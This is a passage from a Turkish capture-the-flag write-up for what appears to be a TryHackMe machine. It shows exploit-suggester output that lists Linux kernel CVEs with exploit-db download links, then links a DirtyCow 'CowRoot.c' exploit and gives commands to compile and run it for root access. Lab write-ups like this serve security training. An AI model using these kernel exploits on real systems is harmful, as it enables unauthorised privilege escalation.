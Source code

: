 ```
   Details: http://blog.includesecurity.com/2014/03/exploit-CVE-2014-0038-x32-recvmmsg-kernel-vulnerablity.html
   Exposure: less probable
   Tags: ubuntu=13.10
   Download URL: https://www.exploit-db.com/download/31346
   Comments: CONFIG_X86_X32 needs to be enabled

[+] [CVE-2014-0038] timeoutpwn 2

   Details: http://blog.includesecurity.com/2014/03/exploit-CVE-2014-0038-x32-recvmmsg-kernel-vulnerablity.html
   Exposure: less probable
   Tags: ubuntu=(13.04|13.10){kernel:3.(8|11).0-(12|15|19)-generic}
   Download URL: https://www.exploit-db.com/download/31347
   Comments: CONFIG_X86_X32 needs to be enabled

[+] [CVE-2016-0728] keyring

   Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/40003
   Comments: Exploit takes about ~30 minutes to run. Exploit is not reliable, see: https://cyseclabs.com/blog/cve-2016-0728-poc-not-working
   ```
Epey bir uzun çıktı vermektedir. Burada yer alan tüm explotler hedef sistemde çalışmaya bilmektedir. Bazı açıklar path edilmiş olabilmektedir. En dikkat çeken açık ilk sırada yer alan ve epey meşhur olan DirtyCow'dur. *(DirtyCow hakkında daha fazla bilgi için https://canyoupwn.me/tr-dirtycow/)*

DirtyCow kullanılarak yetki yükseltmemizi sağlayacak olan [CowRoot.c](https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679) dosyası indirilir. Hedef sistemde derlenerek çalıştırılır.

```
gcc dirtycow.c -o root -pthread
./root
```
{{< image src="/images/thm/0Day/priv.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

/root dizini altında yer alan root.txt dosyası okunarak makina çözümü tamamlanır.

{{< image src="/images/thm/0Day/rootflag.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Umarım faydalı olmuştur. Başka bir çözümde görüşmek üzere Allah'a emanet olun...


